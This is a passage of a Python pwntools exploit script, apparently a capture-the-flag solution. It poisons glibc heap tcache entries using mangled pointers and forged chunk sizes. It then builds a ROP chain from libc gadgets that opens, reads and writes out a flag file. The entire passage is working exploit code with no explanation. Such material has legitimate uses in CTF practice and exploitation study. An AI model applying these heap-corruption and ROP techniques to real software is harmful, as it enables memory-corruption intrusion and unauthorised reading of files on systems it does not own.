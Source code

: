 ```python
payload += b'5'*0x48
payload += flat(0x81)[:-1]

e(0, payload)
d(3)
d(2)

payload = b''
payload += b'@'*0xf8
payload += flat(0x81)
payload += b'@'*0x78
payload += flat(0x81)
payload += b'@'*0x78

payload += flat(0x51)
#payload += p64(mangle(stdout))
payload += p64(mangle(libc.address - 0x2920))
payload += b'2'*0x40
payload += flat(0x51)
payload += p64(mangle(0))
payload += b'3'*0x40
payload += flat(0x51)
payload += b'4'*0x48
payload += flat(0x51)
payload += b'5'*0x48
payload += flat(0x81)[:-1]

over1 = b''
over1 += p64(0)*5+p64(0x101)+p64( (libc.address-0x2890)^((heap+0x710)>>12) )
e(7,over1)
e(0, payload)

#---------------------------------------------------------------
# gagdets from libc
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
pop_rsi = rop.find_gadget(['pop rsi', 'ret'])[0]
pop_rax_rdx_rbx = libc.address + 0x0000000000090528 # pop rax ; pop rdx ; pop rbx ; ret
pop_rax = rop.find_gadget(['pop rax', 'ret'])[0]
xchg_eax_edi = libc.address + 0x000000000014a385 # xchg eax, edi ; ret
xchg_eax_edx = libc.address + 0x00000000000cea5a # xchg eax, edx ; ret
syscall = libc.address + 0x0000000000091396 # syscall; ret;

a(0xf8, b'a1a1')
ropa = libc.address - 0x2890
# our final ROP thant will dump the flag
myrop= b''
# open(fname,O_RDONLY)  (8 qwords)
myrop += p64(0)+p64(pop_rdi)+p64(ropa+(29*8))+p64(pop_rsi)+p64(0)+p64(pop_rax)+p64(2)+p64(syscall)
# read(fd,buff,256)   (8 qwords)
myrop += p64(xchg_eax_edi)+p64(pop_rsi)+p64(ropa+0x200)+p64(pop_rax_rdx_rbx)+p64(0)+p64(0x200)+p64(0)+p64(syscall)
# write(fd,buff,256)   (8 qwords)
myrop += p64(xchg_eax_edx)+p64(pop_rdi)+p64(1)+p64(pop_rsi)+p64(ropa+0x200)+p64(pop_rax)+p64(1)+p64(syscall)
#myrop += p64(pop_rdi)+p64(1)+p64(pop_rsi)+p64(ropa-0x200)+p64(pop_rax_rdx_rbx)+p64(1)+p64(0x100)+p64(0)+p64(syscall)
# exit()   (5 qwords)
myrop += p64(pop_rax_rdx_rbx)+p64(60)+p64(0)+p64(0)+p64(syscall)
if args.REMOTE:
  myrop += b'/flag\x00'
else:
  myrop += b'flag.txt\x00'

```
